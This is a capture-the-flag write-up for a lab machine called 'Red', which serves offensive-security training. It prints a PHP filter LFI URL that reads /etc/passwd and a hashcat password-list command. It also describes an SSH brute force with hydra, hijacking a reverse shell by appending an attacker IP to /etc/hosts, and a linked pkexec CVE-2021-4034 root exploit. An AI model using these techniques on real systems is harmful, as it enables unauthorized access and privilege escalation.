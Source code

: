 # Red

Scanning for target, we discover 2 open ports. SSH running on port 22 and web server on port 80.

![image.png](image.png)

Looking around the website and source code didn't give us any leads. 

![image.png](image%201.png)

But the URL gave us an idea to try out Local File Inclusion (LFI) using PHP wrapper. And as expected we got a lead. We were able to retrieve the `/etc/passwd` file from the machine.

`http://10.10.81.76/index.php?page=php://filter/resource=/etc/passwd`

![image.png](image%202.png)

From the file we got to see the existence of two users `blue` and `red` . Next we retrieved the contents of `.bash_history` from `/home/blue` . This revealed that a passlist was generated with a file `.reminder`  as the base and `best64.rule` ruleset using hashcat.

![image.png](image%203.png)

We retrieved the contents of `.reminder` and used hashcat and same ruleset to create a passlist.

![image.png](image%204.png)

`hashcat --stdout .reminder -r /usr/share/hashcat/rules/best64.rule > passlist.txt` 

From there we used the passlist and the username blue to brute force our way in through SSH using hydra.

![image.png](image%205.png)

Now we have access to the machine as blue. From here we get the fist flag.

![image.png](image%206.png)

As we progressed by checking through the folders and files we were getting kicked out from the machine from time to time and red was taunting us with his quips. This means some process is running in the background which enables him to do so. So we used `pspy64` by running it in`/tmp` folder.  This reveals a command being run that tries to establish a reverse shell to server `redrules.thm`  on port 9001.

![image.png](image%207.png)

Checking for files with writable permissions for blue, we find `/etc/hosts` is one of them

`find /  -type f -writable 2>/dev/null | grep -Ev '^(/proc|/snap|/sys|/dev)’`

![image.png](image%208.png)

Examining the hosts file we find the address `redrules.thm` resolved to an IP address.  Now we try to change the IP to our ATTACKER machine IP but we are not able to do so. Checking the permissions of the file using`lsattr /etc/hosts` reveal: `-----a--------e----- /etc/hosts` . That is we can append  it. Therefore `echo [attackboxIP] redrules.thm >> /etc/hosts` will work. We setup  a `netcat` on port 9001 and wait.

[PS :Red keeps changing contents of `/etc/hosts` so keep an eye out whether our changes are still there.]

Viola we get access as user red on the machine and the second flag.

![image.png](image%209.png)

Digging into the hidden files leads us to `.git` folder. Which contains `pkexec` , Hmmm not the usual place for it. 

![image.png](image%2010.png)

Checking the version we find it as `0.105` . Quick google and we find an exploit.

![image.png](image%2011.png)

Quick search in google takes us to a GitHub repository with the exploit.

[https://github.com/joeammond/CVE-2021-4034/blob/main/CVE-2021-4034.py](https://github.com/joeammond/CVE-2021-4034/blob/main/CVE-2021-4034.py)

Running it gets us the root access and the final flag.

![image.png](image%2012.png)


